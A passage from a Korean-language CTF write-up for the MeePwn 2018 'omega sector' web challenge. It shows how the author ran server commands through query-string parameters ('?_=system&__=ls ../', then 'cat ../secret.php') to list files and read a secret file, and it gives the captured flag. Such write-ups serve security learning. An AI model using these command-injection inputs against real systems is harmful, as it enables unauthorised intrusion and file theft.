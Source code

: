 그 결과, 아래와 같이 `ls` 명령어가 실행된 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_20.PNG)

현재 디렉토리인 `alien_message` 디렉토리에는 플래그로 보이는 값이 없어, 상위 디렉토리를 확인하기 위해 `?_=system&__=ls ../`를 쿼리스트링으로 넘겨주었다.  

그 결과 아래와 같은 파일들을 확인할 수 있었다.  

```
alien_message
alien_sector.php
assets
human_message
index.php
omega_sector.php
secret.php
```

그 중 가장 의심스로운 `secret.php` 파일을 확인하기 위해 `?_=system&__=cat ../secret.php`를 넘겨주었다.  

그 결과 이번에도 역시 주석에서 flag를 발견할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_21.PNG)

```
FLAG : MeePwnCTF{__133-221-333-123-111___}
```

